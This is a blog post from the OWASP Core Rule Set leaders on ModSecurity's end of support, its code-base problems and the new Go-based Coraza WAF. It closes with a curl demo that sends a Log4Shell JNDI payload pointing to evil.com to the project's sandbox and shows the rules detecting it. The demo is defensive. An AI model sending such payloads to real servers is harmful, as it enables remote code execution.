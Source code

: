 ```yaml
---
author: dune73
categories:
  - Blog
date: '2021-12-22T13:23:02+01:00'
title: Talking about ModSecurity and the new Coraza WAF
---
```



It's time to talk about the ModSecurity engine and to introduce you to Coraza, a new contender on the WAF front. Any rule set is nothing without a WAF engine to run it, so even if our project is focused on the rules, we need to look at the underlying engine(s) from time to time.

On August 26, 2021, Trustwave, the owner of ModSecurity, announced the end of Support for ModSecurity for 2024 in a [blog post](https://www.trustwave.com/en-us/resources/security-resources/software-updates/end-of-sale-and-trustwave-support-for-modsecurity-web-application-firewall/). The blog also states that Trustwave plans to “let the open-source community continue the project.”

During autumn, OWASP, our mother organization, reached out to Trustwave and offered to assume stewardship of the project and attract sponsors while honoring Trustwave’s existing commitments. Sadly, OWASP and Trustwave were not yet able to find a common path before the end of Trustwave’s end of life support in 2024. So Trustwave is winding down their commitment and we need to move on.

As the provider of the OWASP ModSecurity Core Rule Set, we are the biggest users of ModSecurity, but also one of the biggest experts on ModSecurity. Our CRS co-leader Dr. Christian Folini is the author of the 2nd edition of the quasi-official ModSecurity Handbook, and our project brings together a unique expertise of ModSecurity in very diverse setups. We have been examining the development of ModSecurity ever since it was taken over by Trustwave, we have seen lead developers join and leave the company, we have raised dozens of issues and we contributed with several pull requests.

Without going into too much detail, we think it is fair to say that ModSecurity failed to attract a community of active developers. CRS has grown from 3 to 12 active developers since it separated from Trustwave in 2016. Meanwhile, ModSecurity has not been able to keep up with the necessary resources to accommodate the growing CRS project and its users.

#### ModSecurity: a problem with two code bases

One problem is the ModSecurity code base. The traditional base is ModSecurity 2, a venerable Apache module, originally developed by Ivan Ristić. However ModSecurity 2 is heavily linked to Apache internals, which makes it hard to port it and makes it sensible to re-factor. There is the successor libModSecurity 3, a standalone engine built from scratch in C++ with a connector module to integrate it into NGINX. ModSecurity 3 was released as stable and production-ready in December 2017.

It's been four years, and CRS still uses ModSecurity 2 as its reference implementation. The main reason is ModSecurity 3 fails to pass all tests in our test suite. Trustwave dubbed ModSecurity 3 as a re-implementation with an equal feature set, which has not happened yet. Recently, we sent Trustwave a list a dozen implementation gaps and differences that break CRS rules and potentially open up an application to attacks.

But this is not the only problem. NGINX is also the only platform where a publicly available ModSecurity 3 connector module exists. So you can not run ModSecurity 3 on the traditional Apache and also not on the new hot cloud stuff. And the performance of ModSecurity 3 is much worse than the throughput of ModSecurity 2 on Apache (Yes, you heard this right: Once ModSecurity comes into play, Apache is way faster than NGINX).

So, we have a very old code base that is bound to Apache, and a newer codebase that is incomplete, less performant, and only runs on NGINX.

CRS has pondered the problem, but we came to the conclusion that we will rather use our knowledge and resources to write rules than working on an engine. That’s said, we will strive to become engine-neutral. (Which does not mean we are not supportive. The last few security problems in ModSecurity have all been discovered by CRS developers and shared with the ModSecurity developers before publication. And we have quite a few pull requests open on the ModSecurity GitHub on top.)

The only viable option for a ModSecurity fork would be a company or organization with deep pockets and the resources to clean up the codebases, closing the gaps and then maybe a vision of how to move forward. We expect about 4,000 hours of investment for both code bases.

So in our opinion, the situation looks rather bleak for ModSecurity and for those integrators who have invested in ModSecurity. We're facing a similar situation apparently. But we also think there is reason for hope. Let us explain!

First, ModSecurity’s SecLang engine is not overly important. There are already several commercial reimplementations of ModSecurity, and there is nothing preventing an open source alternative.

And second, the intelligence is in the rule set, not in the engine. Mike Shinn, CEO of Atomicorp, an old school vendor of ModSecurity rules, has put it this way recently: "The real magic of ModSecurity is always in the rules anyways." As an open source rules provider, we could not agree more.

So all we really need is an open source alternative to ModSecurity. And such a very interesting alternative has arrived now: Entering the [Coraza WAF](https://coraza.io).

#### The beauty of the new Coraza WAF

Coraza is an implementation of a SecLang engine in the memory-safe Go language, all developed by Juan Pablo Tosso from Chile. Coraza is currently only working on the open source [Caddy web server](https://caddyserver.com/), but Coraza already passes 100% of the CRS test suite and we are convinced it is production ready. Juan Pablo has picked up work on Apache and NGINX integration, and he wants to make it a drop-in replacement for ModSecurity. And then many, many more plans. The only obstacle to fill these with life is the lack of a developer community around Coraza. And we sincerely hope that the beauty of the project will inspire people to check it out and join!

{{< figure src="/images/2021/12/coraza-logo.png" caption="The new Coraza WAF with its pet \"Sancho\" on the right." >}}
To give you an early access to Coraza, if you do not have a Caddy webserver to play around, we have set up a Caddy with Coraza on our CRS sandbox, and you can try it out immediately. In the following example, we will send a Log4J exploit to the sandbox. Note that with the “x-backend” header, we pick Coraza as an engine, and with “x-crs-version” we pick the Core Rule Set with the extra Log4J rule from our [earlier Log4J blog post](https://coreruleset.org/20211213/crs-and-log4j-log4shell-cve-2021-44228/).

```sh
curl -H "x-crs-paranoia-level: 4" \
  -H "x-format-output: txt-matched-rules" \
  -H "x-backend: coraza" \
  -H "x-crs-version: 3.4.0-dev-log4j" \
  -H ‘***User-Agent: ${jndi:ldap://evil.com}***’ \
  https://sandbox.coreruleset.org  
> 1005 PL1 Potential Remote Command Execution: Log4j CVE-2021-44228  
> 932130 PL1 Remote Command Execution: Unix Shell Expression Found  
> 949110 PL1 Inbound Anomaly Score Exceeded (Total Score: 10)  
> 980130 PL1 Inbound Anomaly Score Exceeded (Total Inbound Score: 10 - SQLI=0,XSS=0,RFI=0,LFI=0,RCE=10,PHPI=0,HTTP=0,SESS=0): individual paranoia level scores: 10, 0, 0, 0
```

#### **Conclusion**

We are not sailing away from the ModSecurity island just yet, but we are helping to build a new ship. While we see problems with the viability of the ModSecurity project, we will continue to test it and report issues with ModSecurity 3 productively in order to help improve its outlook. Meanwhile, we will work with the community on creating alternatives such as Coraza, so our users can use the Core Rule Set with any modern setups for many years to come. Our sandbox will be a useful asset to help us assess and compare various engines, to give our users as many options as possible.

If you are interested in looking at Coraza, here are some interesting links:

- <https://coraza.io>
- <https://coraza.io/docs/tutorials/introduction/>
- <https://github.com/jptosso/coraza-waf>

We will keep you updated on new developments in this regard.  
  
*Walter Hop and Christian Folini, leaders of the OWASP ModSecurity Core Rule Set project*  
  
P.S. Juan Pablo Tosso asked CRS to come up with a name for his Coraza mascot. We settled on Sancho and he thought it was a great fit.
